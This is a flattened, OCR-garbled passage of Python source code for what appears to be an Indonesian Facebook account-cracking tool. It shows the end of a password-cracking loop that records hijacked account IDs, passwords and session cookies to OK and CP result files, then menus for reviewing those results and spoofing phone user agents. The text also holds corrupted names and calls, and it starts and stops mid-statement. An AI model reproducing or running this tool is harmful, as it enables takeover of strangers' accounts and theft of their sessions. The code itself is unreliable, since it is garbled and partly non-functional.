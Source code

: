 ahmar_ahmar("CP/%s.txt"%(tanggal),"a+").write("%s•%s\n"%(fl.get("id"),i)) break elif log.get("status")=="success": ahmar_cici("\r%s[%sXSAN-OK%s] %s • %s • %s "%(H,P,H,fl.get("id"),i,koki(log.get("cookies")))) self.ada.append("%s•%s"%(fl.get("id"),i)) ahmar_ahmar("OK/%s.txt"%(tanggal),"a+").write("%s•%s\n"%(fl.get("id"),i)) break else:continue self.ko+=1 ahmar_cici("\r%s[%sCrack%s][%s%s/%s%s][%sOK:%s%s][%sCP:%s%s]%s"%(U,P,U,P,self.ko,len(self.fl),U,P,len(self.ada),U,P,len(self.cp),U,P), end=' ');sys.stdout.flush() except: self.mbasic(fl) ### Menu Mengecek Hasil Crack def cek_result_dev(): clear() my_logo() Ahmar_jan_Cici = 'My_Love'+oscylopsce+escylipsce+ascylapsci+'forever' ahmar_cici('%s[ %sCrack Results %s]'%(U,P,U)) ahmar_cici('\n%s[%s1%s] %sCheck Results OK'%(U,P,U,P)) ahmar_cici('%s[%s2%s] %sChel Results CP'%(U,P,U,P)) ch = cici_ahmar('%s[%s•%s] %sChoose : '%(U,P,U,P)) if ch in ['']: ahmar_cici('%s[%s!%s] %sWrong input'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) elif ch in ['1','01','001','a']: try: okl = os.listdir("OK") ahmar_cici('\n%s[%s Crack Results Stored in File OK %s]\n'%(U,P,U)) for file in okl: ahmar_cici('%s[%s•%s] %s%s'%(U,P,U,P,file)) ahmar_cici('') files = cici_ahmar('%s[%s•%s] %sINPUT File Name : '%(U,P,U,P)) ahmar_cici('') if files == "": ahmar_cici('%s[%s!%s] %sWrong Input Bro'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) os.system('cat OK/%s'%(files)) ppp = ahmar_ahmar("OK/%s"%(files)).read().splitlines() del1 = ("%s"%(files)).replace("-", " ").replace(".txt", "") ahmae_cici('\n%s[%s•%s] %sTotal Crack Result Date %s Is %s Account'%(U,P,U,P,del1,len(ppp))) except: ahmar_cici('%s[%s No Results Found %s]'%(M,P,M)) elif ch in ['2','02','002','b']: try: cpl = os.listdir("CP") ahmar_cici('\n%s[%s Crack Results Stored in CP Files %s]\n'%(U,P,U)) for file in cpl: ahmar_cici('%s[%s•%s] %s%s'%(U,P,U,P,file)) ahmar_cici('') files = cici_ahmar('%s[%s•%s] %sInput File Name : '%(U,P,U,P)) ahmar_cici('') if files == "": ahmar_cici('%s[%s!%s] %sWrong input'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) os.system('cat CP/%s'%(files)) ppp = ahmar_ahmar("CP/%s"%(files)).read().splitlines() del1 = ("%s"%(files)).replace("-", " ").replace(".txt", "") ahmar_cici('\n%s[%s•%s] %sTotal Crack Result Date %s Is %s Account'%(U,P,U,P,del1,len(ppp))) except: ahmar_cici('%s[%s No Results Found %s]'%(M,P,M)) else: ahmar_cici('%s[%s!%s] %sWeong Input'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) cici_ahmar('\n%s[ %sReturn %s]%s'%(U,P,U,P)) menu_dev(Ahmar_jan_Cici) ### Mau Recode Lu Ya? def check_recode(oscylopsce,ascylapsci,escylipsce): recode = 'My_Love'+oscylopsce+escylipsce+ascylapsci+'Forever' if uscylupsci not in recode:ahmar_cici('%s[%s!%s] %sHey, do you want to recode?'%(M,P,M,P)) else:return menu_dev(recode) ### Menu User Agent def default_ua(Cici_Cantik_Banget): ua = ua_xiaomi try: ugent = ahmar_ahmar('ugent.txt','w') ugent.write(ua) ugent.close() except (KeyError,IOError): login_dev(Cici_Cantik_Banget) def ugen_dev(Ahmar_jan_Cici): var_ugen(Ahmar_jan_Cici) pmu = cici_ahmar('%s[%s•%s] %sChoose : '%(U,P,U,P)) ahmar_cici('') if pmu in[""]: ahmar_cici('%s[%s!%s] %sWrong input'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) elif pmu in ['1','01','001','a']: os.system('xdg-ahmar_ahmar https://www.google.com/search?q=My+User+Agent&oq=My+User+Agent&aqs=chrome..69i57j0l3j0i22i30l6.4674j0j1&sourceid=chrome&ie=UTF-8') cici_ahmar('%s[ %sRetrun %s]%s'%(U,P,U,P)) menu_dev(Ahmar_jan_Cici) elif pmu in ['2','02','002','b']: del() ua = cici_ahmar("%s[%s•%s] %sInput User agent : \n\n"%(U,P,U,P)) try: ugent = ahmar_ahmar('ugent.txt','w') ugent.write(ua) ugent.close() ahmar_cici("\n%s[ %sSuccessfully Changed User Agent %s]"%(U,P,U)) cici_ahmar('\n%s[ %sEnter Click %s]%s'%(U,P,U,P)) menu_dev(Ahmar_jan_Cici) except (KeyError,IOError): ahmar_cici("\n%s[ %sFailed to Change User Agent %s]"%(M,P,M)) cici_ahmar('\n%s[ %sRetrun %s]%s'%(M,P,M,P)) menu_dev(Ahmar_jan_Cici) elif pmu in ['3','03','003','c']: ugen_hp(Ahmar_jan_Cici) elif pmu in ['4','04','004','d']: del() ahmar_cici("%s[ %sUser Agent Deleted Successfully %s]"%(U,P,U)) cici_ahmar('\n%s[ %sRetrun %s]%s'%(U,P,U,P)) menu_dev(Ahmar_jan_Cici) elif pmu in ['5','05','005','e']: try: ungser = ahmar_ahmar('ugent.txt', 'r').read() except (KeyError,IOError): ungser = 'Not found' ahmar_cici("%s[%s•%s] %sYour User Agent : \n\n%s%s"%(U,P,U,P,U,ungser)) ahmar_cici("\n%s[ %sThis is your current user agent %s]"%(U,P,U)) cici_ahmar('\n%s[ %sRetrun %s]%s'%(U,P,U,P)) menu_dev(Ahmar_jan_Cici) elif pmu in ['0','00','000','f']: menu_dev(Ahmar_jan_Cici) else: ahmar_cici('%s[%s!%s] %sWrong Input BRO'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) def ugen_hp(Ahmar_jan_Cici): del() shmar_cici('%s[%s1%s] %sXiaomi'%(U,P,U,P)) ahmar_cici('%s[%s2%s] %sNokia'%(U,P,U,P)) ahmar_cici('%s[%s3%s] %sAsus'%(U,P,U,P)) ahmar_cici('%s[%s4%s] %sHuawei'%(U,P,U,P)) ahmar_cici('%s[%s5%s] %sVivo'%(U,P,U,P)) ahmar_cici('%s[%s6%s] %sOppo'%(U,P,U,P)) ahmar_cici('%s[%s7%s] %sSamsung'%(U,P,U,P)) ahmar_cici('%s[%s8%s] %sWindows'%(U,P,U,P)) pc = cici_ahmar('%s[%s•%s] %sChoose : '%(U,P,U,P)) dapunta_cici('') if pc in['']: dapunta_cici('%s[%s!%s] %sWrong Input Bro'%(M,P,M,P)) time.sleep(2) menu_dev(Ahmar_jan_Cici) elif pc in ['1','01']: ugent = ahmar_ahmar('ugent.txt','w');ugent.write(ua_xiaomi);ugent.close() elif pc in ['2','02']: ugent = ahmar_ahmar('ugent.txt','w');ugent.write(ua_nokia);ugent.close() elif pc in ['3','03']: ugent = ahmar_ahmar('ugent.txt','w');ugent.write(ua_asus);ugent.close() elif pc in ['4','04']: ugent = ahmar_ahmar('ugent.txt','w');ugent.write(ua_huawei);ugent.close() elif pc in ['5','05']: ugent = ahmar_ahmar('ugent.txt','w');ugent.write(ua_vivo);ugent.close() elif pc in ['6','06']: ugent = ahmar_ahmar('ugent.txt','w');ugent.write(ua_oppo);ugent.close() elif pc in ['7','07']: ugent = ahmar_ahmar('ugent.txt','w');ugent.write(ua_samsung);ugent.close() elif pc in ['8','08']: ugent =